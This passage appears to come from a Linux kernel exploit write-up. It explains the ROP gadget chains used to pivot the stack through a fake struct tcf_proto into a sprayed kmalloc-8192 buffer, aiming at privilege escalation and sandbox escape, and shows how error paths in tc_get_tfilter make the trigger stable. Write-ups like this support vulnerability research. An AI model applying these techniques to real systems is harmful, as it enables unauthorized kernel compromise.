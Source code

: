 We will set `ops->dump()` to the following gadget:
```nasm
push rsi;
jmp [rsi + 0x39]
```

With this gadget we can perform a stack pivot into our fake `struct tcf_proto`.
Since this object is quite small (and some fields are constrained), we will
pivot the stack again.
Naturally a good target is the large buffer in `kmalloc-8192` because we already
know the address and we have plenty of space there.
Note that we cannot modify the key payload, thus have to free it and repeat the
spray.
Also, note that the `ops` member is introducing one level of pointer indirection,
but we will use the large buffer for that, too.

In order to do the first pivot, we choose the following gadget chain:
```nasm
pop rsp;
add rsp, 0x18;
pop rbx;
pop rbp;
pop r12;
ret;
```
This chain is specifically chosen to overlay the `struct tcf_proto` in such a way
that it does not touch any vital members.

We can control `rbp` with this chain, thus we use the following gadget to pivot
to the prepared stack in the large buffer:
```nasm
mov rsp, rbp;
pop rbp;
ret
```

After that we are on a large stack without any constraints, thus assembling a
standard ROP payload escalating privileges and escaping the sandbox is trivial.

#### Step 4.1: Stabilizing the Trigger

As mentioned earlier `struct tcf_proto` is a very good choice as an
overwrite target.
Looking at the way the fake structure is retrieved we will see that we
can make use of the error conditions in order to make the trigger completely stable.

```c
// in tc_get_tfilter()
	if (!tp || IS_ERR(tp)) {
		NL_SET_ERR_MSG(extack, "Filter with specified priority/protocol not found");
		err = tp ? PTR_ERR(tp) : -ENOENT; // [1]
		goto errout;
	} else if (tca[TCA_KIND] && nla_strcmp(tca[TCA_KIND], tp->ops->kind)) {
		NL_SET_ERR_MSG(extack, "Specified filter kind does not match existing one");
		err = -EINVAL; // [2]
		goto errout;
	}
```
